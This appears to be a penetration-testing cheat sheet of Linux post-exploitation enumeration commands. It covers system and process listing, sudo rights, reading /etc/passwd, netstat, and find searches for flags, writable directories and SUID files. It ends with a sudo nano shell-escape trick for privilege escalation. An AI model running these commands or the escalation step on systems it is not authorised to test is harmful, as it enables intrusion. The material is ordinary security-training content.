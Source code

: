 ### Run the following commands to enumerate a system

**Returns the hostname of the target machine**
```JavaScript
hostname
```
**Will print system information giving us additional detail about the kernel used by the system**
```JavaScript
uname -a
```

**The proc filesystem (procfs) provides information about the target system processes**
```JavaScript
/proc/version
```

**Usually contains some information about the operating system**
```JavaScript
/etc/issue
```

**View all running processes**
```JavaScript
ps -A
```
**View process tree**
```JavaScript
ps axjf
```

**View processes for all users**
```JavaScript
ps aux
```

**List all commands your user can run using sudo**
```JavaScript
sudo -l
```
**General overview of the user’s privilege level and group memberships**
```JavaScript
id 
```

**Verify environment variables*
```JavaScript
env
```

**Potentially discover users on the system**
```JavaScript
/etc/passwd
```

**Cut away the fat from the command above**
```JavaScript
cat /etc/passwd | grep home
```

**View network routes**
```JavaScript
ip route
```

**Show all listening ports and established connections**
```JavaScript
netstat -a
```

**Show all listening TCP and UDP ports and established connections**
```JavaScript
netstat -at 
```

**list TCP or UDP protocols **
```JavaScript
netstat -au
```

**List ports in listening mode**
```JavaScript
netstat -l
```
**List network usage statistics by protocol **
```JavaScript
netstat -s
```

**List connections with the service name and PID information**
```JavaScript
netstat -tp
```
**Show interface statistics**
```JavaScript
netstat -i
```

**Netstat. Display all sockets, Do no resolve names, Display timers**
```JavaScript
netstat -ano
```

**find the file named “flag1.txt” in the current directory**
```JavaScript
find . -name flag1.txt
```

**find the file names “flag1.txt” in the /home directory**
```JavaScript
find /home -name flag1.txt
```

**find the directory named config under “/”**
```JavaScript
find / -type d -name config
```

**find files with the 777 permissions (files readable, writable, and executable by all users)**
```JavaScript
find / -type f -perm 0777
```

**find executable files**
```JavaScript
find / -perm a=x
```

**find all files for user “frank” under “/home”**
```JavaScript
find /home -user frank
```

**find files that were modified in the last 10 days**
```JavaScript
find / -mtime 10
```

**find files that were accessed in the last 10 day**
```JavaScript
find / -atime 10
```

**find files changed within the last hour (60 minutes)**
```JavaScript
find / -cmin -60
```

**find files accesses within the last hour (60 minutes)**
```JavaScript
find / -amin -60
```

**find files with a 50 MB size**
```JavaScript
find / -size 50M
```

**Folders and files that can be written to or executed from**
```JavaScript
find / -writable -type d 2>/dev/null
```
```JavaScript
find / -perm -222 -type d 2>/dev/null
```
```JavaScript
find / -perm -o w -type d 2>/dev/null
```

**Find world-executable folders**
```JavaScript
find / -perm -o x -type d 2>/dev/null
```

**Find development tools and supported languages**
```JavaScript
find / -name perl*
```
```JavaScript
find / -name python*
```
```JavaScript
find / -name gcc*
```

**Find files with the SUID bit**
```JavaScript
find / -perm -u=s -type f 2>/dev/null
```

```JavaScript
find / -type f -perm -04000 -ls 2>/dev/null
```

**Privilege Escalation with Sudo**

Run nano and press CTRL+R and CTRL+X. Then enter the following and press enter:
```JavaScript
reset; bash 1>&0 2>&0
```
